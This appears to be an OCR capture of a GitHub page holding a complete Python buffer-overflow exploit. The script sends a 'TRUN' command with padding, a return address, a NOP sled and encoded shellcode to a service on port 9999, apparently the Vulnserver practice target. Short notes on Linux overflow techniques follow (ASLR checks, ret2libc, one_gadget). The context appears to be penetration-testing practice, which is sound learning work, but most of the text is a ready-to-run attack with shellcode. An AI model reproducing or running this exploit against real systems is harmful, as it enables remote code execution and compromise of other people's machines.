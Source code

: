 1 #!/usr/bin/python
2 # -*- coding: utf-8 -*-
3
4 import sys
5 import socket
6
7 overflow = (
8 "\xb8\x0c\x65\xe6\x11\xda\xd9\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
9 "\x52\x31\x42\x12\x83\xea\xfc\x03\x4e\x6b\x04\xe4\xb2\x9b\x4a"
10 "\x07\x4a\x5c\x2b\x81\xaf\x6d\x6b\xf5\xa4\xde\x5b\x7d\xe8\xd2"
11 "\x10\xd3\x18\x60\x54\xfc\x2f\xc1\xd3\xda\x1e\xd2\x48\x1e\x01"
12 "\x50\x93\x73\xe1\x69\x5c\x86\xe0\xae\x81\x6b\xb0\x67\xcd\xde"
13 "\x24\x03\x9b\xe2\xcf\x5f\x0d\x63\x2c\x17\x2c\x42\xe3\x23\x77"
14 "\x44\x02\xe7\x03\xcd\x1c\xe4\x2e\x87\x97\xde\xc5\x16\x71\x2f"
15 "\x25\xb4\xbc\x9f\xd4\xc4\xf9\x18\x07\xb3\xf3\x5a\xba\xc4\xc0"

16 "\x21\x60\x40\xd2\x82\xe3\xf2\x3e\x32\x27\x64\xb5\x38\x8c\xe2"
17 "\x91\x5c\x13\x26\xaa\x59\x98\xc9\x7c\xe8\xda\xed\x58\xb0\xb9"
18 "\x8c\xf9\x1c\x6f\xb0\x19\xff\xd0\x14\x52\x12\x04\x25\x39\x7b"
19 "\xe9\x04\xc1\x7b\x65\x1e\xb2\x49\x2a\xb4\x5c\xe2\xa3\x12\x9b"
20 "\x05\x9e\xe3\x33\xf8\x21\x14\x1a\x3f\x75\x44\x34\x96\xf6\x0f"
21 "\xc4\x17\x23\x9f\x94\xb7\x9c\x60\x44\x78\x4d\x09\x8e\x77\xb2"
22 "\x29\xb1\x5d\xdb\xc0\x48\x36\xee\x14\x52\x94\x86\x16\x52\x09"
23 "\x0b\x9e\xb4\x43\xa3\xf6\x6f\xfc\x5a\x53\xfb\x9d\xa3\x49\x86"
24 "\x9e\x28\x7e\x77\x50\xd9\x0b\x6b\x05\x29\x46\xd1\x80\x36\x7c"
25 "\x7d\x4e\xa4\x1b\x7d\x19\xd5\xb3\x2a\x4e\x2b\xca\xbe\x62\x12"
26 "\x64\xdc\x7e\xc2\x4f\x64\xa5\x37\x51\x65\x28\x03\x75\x75\xf4"
27 "\x8c\x31\x21\xa8\xda\xef\x9f\x0e\xb5\x41\x49\xd9\x6a\x08\x1d"
28 "\x9c\x40\x8b\x5b\xa1\x8c\x7d\x83\x10\x79\x38\xbc\x9d\xed\xcc"
29 "\xc5\xc3\x8d\x33\x1c\x40\xad\xd1\xb4\xbd\x46\x4c\x5d\x7c\x0b"
30 "\x6f\x88\x43\x32\xec\x38\x3c\xc1\xec\x49\x39\x8d\xaa\xa2\x33"
31 "\x9e\x5e\xc4\xe0\x9f\x4a")
32
33 shellcode = 'A' * 2003 + "\xaf\x11\x50\x62" + '\x90' * 32 + overflow
34
35 try:
36 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
37 s.connect(('10.0.0.71', 9999))
38 s.send('TRUN /.:/' + shellcode)
39 s.close()
40 except:
41
42 print('Error connecting to server')
43 sys.exit()

Binary
Linux BOF :

check ASLR : cat /proc/sys/kernel/randomize_va_space
0 - ASLR Disable
1 - ASLR Enabled
gdb checksec
ldd <binary>
ltrace <binary>
Lib2retc attack - HTB Frolic
https://github.com/david942j/one_gadget (One Gadget tool for finding RCE in libc)
https://snowscan.io/htb-writeup-frolic/
Buffer Overflow Practice :
